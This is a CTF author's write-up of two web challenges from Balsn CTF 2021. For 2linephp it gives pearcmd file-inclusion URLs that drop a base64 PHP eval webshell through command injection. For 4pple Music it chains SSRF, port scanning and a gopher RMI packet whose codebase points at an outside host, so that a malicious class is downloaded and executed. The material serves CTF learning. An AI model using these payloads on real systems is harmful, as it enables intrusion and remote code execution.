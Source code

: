 # Balsn CTF 2021

# 2linephp

- Difficulty: ★
- Type: Web
- Solved: 8 / 284
- Tag: Warmup, PHP

## Source Code

- [2linephp](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/2linephp/)

## Solution

In 2020, I have made a similar challenge in a chinese CTF.

But the difference is that we can't use http/https and our webshell should start with `<?php`.

### Intened Solution
- `/?+channel-discover+kaibro.tw/302.php?&kaibro=/usr/local/lib/php/pearcmd`
    - 302.php will redirect to http://kaibro.tw/test.php
    - pear will download test.php to `/tmp/pear/temp/test.php`

### Unintended Solution

There are many interesting unintended solutions :D

- sol1 - command injection (from 0daysober)
    - `/?+install+-R+&kaibro=/usr/local/lib/php/pearcmd&+-R+/tmp/other+channel://pear.php.net/Archive_Tar-1.4.14`
    - `/?+bundle+-d+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/+/tmp/other/tmp/pear/download/Archive_Tar-1.4.14.tgz+&kaibro=/usr/local/lib/php/pearcmd&`
    - `/index.php?+svntag+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/Archive_Tar+&kaibro=/usr/local/lib/php/pearcmd&'`
- sol2 - php filter (from 10sec)
    - `/?+config-create+/&eHh4eD4qKipQRDl3YUhBZ2MzbHpkR1Z0S0NSZlIwVlVXMk50WkYwcE96czdQejRn<&kaibro=/usr/local/lib/php/pearcmd&/<meow>+/tmp/meoww.php`
    - `/?kaibro=php%3a//filter/read=string.strip_tags%7Cconvert.base64-decode%7Cstring.strip_tags%7Cconvert.base64-decode/resource=/tmp/meoww&cmd=/readflag`
- and more!

## Writeups

- [maple3142's writeup](https://blog.maple3142.net/2021/11/21/balsn-ctf-2021-writeups/#linephp)
- [HhhM's blog](https://redmango.top/article/69#2linephp)

---

# 4pple Music

- Difficulty: ★★
- Type: Web
- Solved: 2 / 284
- Tag: Java, RealWorld, BlackBox, Pentesting

## Source Code

- [4pple Music](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/)

## Solution

1. Find the SSRF vulnerability

```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Connection: close

url=http://kaibro.tw
```

2. Port Scanning to `flagserver.local`

There are many open ports on `flagserver.local`, like `34571`, `34572`, ...

If you visit http://flagserver.local:34572, you will see the following response:

```xml
<OBJECT
    NAME = "%APPLICATION%"
    classid = "clsid:8AD9C840-044E-11D1-B3E9-00805F499D93"
    codebase = "http://java.sun.com/products/plugin/autodl/jinstall-1_4_2_05-windows-i586.cab#Version=1,4,1,3"
    WIDTH = 100% HEIGHT = 100% >
    <PARAM NAME=CODE VALUE=com.ibm.sysmgt.raidmgr.mgtGUI.Launch>
    <PARAM NAME="type" VALUE="application/x-java-applet;jpi-version=1.4.2_05">
    <PARAM NAME="scriptable" VALUE="false">
    <PARAM NAME="cache_option" VALUE="Plugin">
    <PARAM NAME="cache_archive" VALUE="RaidManS.jar">
    <PARAM NAME="progressbar" value="true">
    <PARAM NAME="boxmessage" value="Loading %APPLICATION% ...">
    <PARAM NAME="progresscolor" value="blue">
    <PARAM NAME="image" value="help/scan_l.gif">
    <PARAM NAME="bgColor" VALUE="FFFFFF">
    <COMMENT>
	<EMBED
            NAME= "StorageManager"
            type = "application/x-java-applet;jpi-version=1.4.2_05"
            CODE = com.ibm.sysmgt.raidmgr.mgtGUI.Launch
            WIDTH = 100%
            HEIGHT = 100%
	        scriptable="false"
	        pluginspage="http://java.sun.com/getjava"
            image="/help/scan_l.gif"
            cache_option="Plugin"
            cache_archive="RaidManS.jar"
            progressbar="true"
            boxmessage="Loading %APPLICATION%..."
            progresscolor="blue"
            bgColor="FFFFFF">
	    <NOEMBED>
        Your browser can not load the Sun Java Applet Plugin...
        </NOEMBED>
	</EMBED>
    </COMMENT>
</OBJECT>
```

Try to google these keywords, and you will find `Adaptec Storage Manager`.

(The 404 page also tell you this is Adaptec Storage Manager Server: `Adaptec Storage Manager File Server:  Error 404.`)

So our target is to pwn this Adaptec Storage Manager server!

3. Attack RMI

If you [install Adaptec Storage Manager](https://adaptec.com/en-us/downloads/storage_manager/sm/productid=sas-3085&dn=adaptec+raid+3085.html) on your local machine or decompiling the RaidManS.jar, you will find that 34571 port is **RMI Registry** Service.

Next, you can send RMI header packet with `gopher://` to verify it:

```
url=gopher://flagserver.local:34571/_JRMI%2500%02K%2500%2500%2500%2500%2500%2500
```

->

```
N
172.18.0.3�z
```

Next step is to attack this RMI service and find the flag.

Because this service is very old (the newest release date is `25 Aug 2010`), so the jdk is very likely to be old too.

(In the old jdk version (< 6u45/7u21), if RMI can't find the class, it will try to load the class from the codebase.)

So we can try to attack the codebase, setting the codebase to our server:

```
gopher://flagserver.local:34571/_JRMI%2500%2502K%2500%2500%2500%2500%2500%2500P%25AC%25ED%2500%2505w%2522%2500%2500%2500%2500%2500%2500%2500%2502%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%25F6%25B6%2589%258D%258B%25F2%2586Cur%2500%2518%255BLjava.rmi.server.ObjID%253B%2587%2513%2500%25B8%25D0%252Cd%257E%2502%2500%2500pxp%2500%2500%2500%2500w%2508%2500%2500%2500%2500%2500%2500%2500%2500sr%2500%2510kaibro.RMILoader%2500%2500%2500%2500%2500%2500%2500%2501%2502%2500%2500t%2500%2516http%253A%252F%252F30cm.club%252F%252F%252F%252F%252F%252Fxpw%2501%2500%250A
```

This payload will download my [malicious class file](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/exploit/kaibro/RMILoader.java) from `http://30cm.club/kaibro/RMILoader.class` and execute it!

=> RCE!



Note: you should use correct jdk version to compile this malicious class, you can simply send a http request to your server and observe the user-agent to know the jdk version of the RMI service:

`HTTP/1.1" 200 1395 "-" "Java/1.6.0_16"`


<br>

(Actually, this is a realworld case reproduced. Maybe it is boring, but I think it is suitable for people to learn how to attack RMI in realworld.)

## Writeups
- [HhhM's blog](https://redmango.top/article/69#4pple-music)
